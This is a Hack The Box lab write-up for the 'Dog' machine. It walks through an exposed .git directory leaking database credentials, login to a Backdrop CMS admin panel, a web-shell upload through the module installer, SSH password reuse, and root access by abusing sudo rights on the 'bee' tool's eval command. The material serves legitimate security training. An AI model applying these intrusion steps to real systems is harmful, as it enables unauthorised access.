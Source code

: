 ```yaml
---
clayout: ctf
title: Dog
date: 2025-05-13
image: /ctf/hack-the-box/machines/dog/info-card.png
type: Hack The Box

ctf:
    - name: Dog
      link: https://app.hackthebox.com/machines/651
      thumbnail: /ctf/hack-the-box/machines/dog/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/651  
          thumbnail: /ctf/hack-the-box/machines/dog/pwned.png
---
```


# Enumeration and Initial Access

## Network scanning

An initial Nmap scan was conducted to identify open ports and running services:

```bash
nmap -sV -sC -oN nmap/initial.nmap 10.10.10.10
```

Scan Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
```

**Observations:**

- SSH (22/tcp) is running OpenSSH 8.2p1.
- A web server (Apache 2.4.41) is running on port 80 with a robots.txt file disallowing access to several sensitive directories.

## Web enumeration

Navigating to the target IP address (10.10.11.58) reveals a Backdrop CMS-powered website.

![Dog - Backdrop CMS](/ctf/hack-the-box/machines/dog/backdrop-cms.png)

### Directory Bruteforcing – Dirsearch

A directory brute-force was performed using Dirsearch:

```bash
dirsearch -u http://10.10.11.58/ -o dirsearch/initial.txt
```

![Dog - dirsearch](/ctf/hack-the-box/machines/dog/dirsearch.png)

### Git Repository Disclosure

The presence of a `.git` directory was discovered, and its contents were extracted using [git-dumper](https://github.com/arthaud/git-dumper):

```bash
git-dumper http://10.10.11.58/.git ./git-dump/
```

Upon reviewing the extracted repository, a sensitive configuration file `settings.php` was located. It contained database connection credentials:

```php
$database = 'mysql://root:BackDrop...@127.0.0.1/backdrop';
```

Additionally, a user-related email address was identified:

```bash
grep -r "@dog.htb"
# ...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

### CMS Admin Panel Access

Using the credentials `tiffany:BackDropJ2024DS2024`, access was gained to the Backdrop CMS admin panel.

![Dog - Backdrop CMS admin](/ctf/hack-the-box/machines/dog/backdrop-cms-admin.png)

### Exploitation of Backdrop CMS

Backdrop CMS version 1.21.0 was identified, for which a known exploit exists ([Exploit-DB #52021]((https://www.exploit-db.com/exploits/52021))).

![Dog - Backdrop CMS exploit](/ctf/hack-the-box/machines/dog/backdrop-exploit.png)

A web shell was packaged into a `.tar` archive and uploaded via the module installer at: `http://10.10.11.58/?q=admin/installer/manual`.

![Dog - Backdrop CMS upload](/ctf/hack-the-box/machines/dog/backdrop-upload.png)

Once uploaded, the shell was accessible at: `http://10.10.11.58/modules/shell/shell.php`.

![Dog - Backdrop CMS shell](/ctf/hack-the-box/machines/dog/backdrop-shell.png)

### Gaining Shell Access

Reviewing `/etc/passwd` revealed the presence of multiple users, including `johncusack`.

![Dog - Backdrop CMS etc passwd](/ctf/hack-the-box/machines/dog/backdrop-etc-passwd.png)

Reusing the earlier credentials, SSH access was gained:

```bash
ssh johncusack@10.10.11.58
Password: BackDrop...

johncusack@dog:~$ id
uid=1001(johncusack) gid=1001(johncusack) groups=1001(johncusack)
```

The user flag was retrieved from `/home/johncusack/user.txt`.

# Privilege Escalation

Running `sudo -l` revealed that the `johncusack` user could execute `/usr/local/bin/bee` with elevated privileges:

```bash
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

## Abuse of bee Utility

[Bee](https://github.com/backdrop-contrib/bee) is a command-line tool for Backdrop CMS administration. According to the documentation, it supports an `eval` function capable of executing arbitrary PHP code.

![Dog - Bee eval](/ctf/hack-the-box/machines/dog/bee-eval.png)

To escalate privileges, the `eval` option was used to run a system command as root:

```bash
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee ev "system('id')"
uid=0(root) gid=0(root) groups=0(root)
```

The root flag was retrieved from `/root/root.txt`
